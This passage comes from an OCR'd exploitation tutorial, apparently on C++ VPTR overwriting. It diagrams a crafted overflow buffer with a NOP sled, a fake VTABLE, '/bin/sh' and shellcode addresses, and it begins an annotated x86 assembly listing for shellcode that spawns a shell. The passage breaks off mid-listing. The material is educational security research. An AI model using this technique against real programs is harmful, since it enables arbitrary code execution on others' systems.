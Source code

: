  these bytes (necessary for our strings) at run time.

While applying all these important points, we are going to try to construct a 
buffer according to the following diagram:

 +------------------------------------<-(1)---------------------------------+
 |   our VTABLE                                                             |
=+===================                                                     ==+=
9999TT999999.... MMMM SSSS0000/bin/shAAA.... A BBB... Bnewstring99999.... VVVVL
                 ==+= ==+=    |      |       | ========
                   |    |     |      |       |      \
                   |    +-->--+      |       |        \(a copy on the stack)
		   |                 |       |      ========
		   +---(2)-->--------+       |      BBB... B
                                             |      |      |
                                             +-(3)->+      +--> old method

Where: 9 represent NOP bytes (90h).
       T represents bytes forming the word of the offset who will be added to
        the pointer on the stack (strange handling ;).
       M represents the address in our buffer of the beginning of our
        shellcode.
       S represents the address in our buffer of the "/bin/sh" string.
       0 represented 90h bytes, who will be initialized to 00h at run time 
        (necessary for exec ()).
       /bin/sh represents the "/bin/sh" string, without any 00h termination
        byte.
       A represents a byte of our shellcode (principally to run the shell, then
        to copy the stackcode on the stack and to run it).
       B represents a byte of our stackcode (principally to reset our buffer
        with a new string, and to run the original method to continue the
        execution of the original program.
       newstring represents the "newstring" string, that will be recopied in
        the buffer after execution of the shell, to continue the execution.
       V represents a byte of the VPTR, that must point back to the beginning
        of our buffer (to our VTABLE).
       L represents the byte that will be copy after the VPTR, and that will
        be a 0hh byte.

In a more detailed manner, here are the content of our shellcode and
stackcode:


pushl  %ebp                             //save existing EBP
movl   %esp,%ebp                        //stack frame creation
xorl   %eax,%eax                        //EAX=0
movb   $0x31,%al                        //EAX=$StackCodeSize (size of the code
                                        // who will be copied to the stack)
subl   %eax,%esp                        //creation of a local variable to
                                        // contain our stackcode
pushl  %edi
pushl  %esi
pushl  %edx
pushl  %ecx
pushl  %ebx                             //save registers
pushf                                   //save flags
cld                                     //direction flag=incrementation
xorl   %eax,%eax                        //EAX=0
movw   $0x101,%ax                       //EAX=$AddThis (value added for
                                        // calculating This on the stack)
subl   %eax,0x8(%ebp)                   //we substract this value from the
                                        // current This value on the stack, to
                                        // restore the original This.